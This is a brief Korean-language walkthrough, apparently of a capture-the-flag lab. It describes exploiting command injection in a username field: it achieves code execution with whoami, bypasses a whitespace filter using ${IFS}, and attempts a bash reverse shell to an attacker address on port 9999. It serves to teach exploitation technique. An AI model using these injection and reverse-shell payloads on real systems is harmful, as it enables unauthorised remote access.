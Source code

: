 ![alt text](img/image5.png)
해당요청을 host=127.0.0.1&username=test;\`whoami\`로 보내면 response location header에서 app@127.0.0.1 으로 rce를 성공한걸 확인가능하다 

username=test;\`bash -i >& /dev/tcp/10.10.14.74/9999 0>&1\` 시도  
오류 메시지  
The host was not added!  
Username can't contain whitespaces!

\${IFS}(Bash에서 공백 대체 변수)를 사용해서 우회시도  
![alt text](img/image6.png)
성공했다 이제 리버스셸로 원격접속 시도  
username=test;\`bash${IFS}-i\${IFS}>&\${IFS}/dev/tcp/10.10.14.74/9999\${IFS}0>&1\`  
실패했다 아마도 필터링이 있는거같다 base64로 인코딩해서 페이로드 전송시도  
